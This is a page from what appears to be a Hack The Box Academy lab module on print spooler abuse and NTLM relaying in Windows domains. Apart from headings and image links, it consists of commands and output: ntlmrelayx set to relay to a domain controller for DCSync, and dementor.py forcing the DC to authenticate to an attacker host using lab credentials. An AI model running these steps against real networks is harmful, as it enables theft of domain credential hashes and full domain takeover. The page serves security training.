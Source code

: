 <!--
 // Platform: Academy
// URL: https://academy.hackthebox.com/module/176/section/1787
// Platform Version: V1
// Module ID: 176
// Module Name: Windows Attacks & Defense
// Module Difficulty: Medium
// Section ID: 1787
// Section Title: Print Spooler & NTLM Relaying
// Page Title: Windows Attacks & Defense
// Page Number: 12
-->

# Print Spooler & NTLM Relaying

**Module Name:** Windows Attacks & Defense **Page Number:** 12

#### WINDOWS ATTACKS & DEFENSE

# Print Spooler & NTLM Relaying

## Description

## Attack

``` shell-session
[!bash!]$ impacket-ntlmrelayx -t dcsync://172.16.18.4 -smb2support

Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Protocol Client SMTP loaded..
[*] Protocol Client LDAP loaded..
[*] Protocol Client LDAPS loaded..
[*] Protocol Client DCSYNC loaded..
[*] Protocol Client IMAP loaded..
[*] Protocol Client IMAPS loaded..
[*] Protocol Client RPC loaded..
[*] Protocol Client HTTP loaded..
[*] Protocol Client HTTPS loaded..
[*] Protocol Client MSSQL loaded..
[*] Protocol Client SMB loaded..
[*] Running in relay mode to single host
[*] Setting up SMB Server
[*] Setting up HTTP Server on port 80
[*] Setting up WCF Server
[*] Setting up RAW Server on port 6666

[*] Servers started, waiting for connections
```

![https://academy.hackthebox.com/storage/modules/176/A10/startntlmrelayx.png](https://academy.hackthebox.com/storage/modules/176/A10/startntlmrelayx.png)

``` shell-session
python3 ./dementor.py 172.16.18.20 172.16.18.3 -u bob -d eagle.local -p Slavi123

[*] connecting to 172.16.18.3
[*] bound to spoolss
[*] getting context handle...
[*] sending RFFPCNEX...
[-] exception RPRN SessionError: code: 0x6ab - RPC_S_INVALID_NET_ADDR - The network address is invalid.
[*] done!
```

![https://academy.hackthebox.com/storage/modules/176/A10/dementor.png](https://academy.hackthebox.com/storage/modules/176/A10/dementor.png)

![https://academy.hackthebox.com/storage/modules/176/A10/hashes.png](https://academy.hackthebox.com/storage/modules/176/A10/hashes.png)

## Prevention

![https://academy.hackthebox.com/storage/modules/176/A10/registry.png](https://academy.hackthebox.com/storage/modules/176/A10/registry.png)

## Detection

![https://academy.hackthebox.com/storage/modules/176/A10/detectDCSync.png](https://academy.hackthebox.com/storage/modules/176/A10/detectDCSync.png)

## Honeypot

# 

# 

#### Questions

####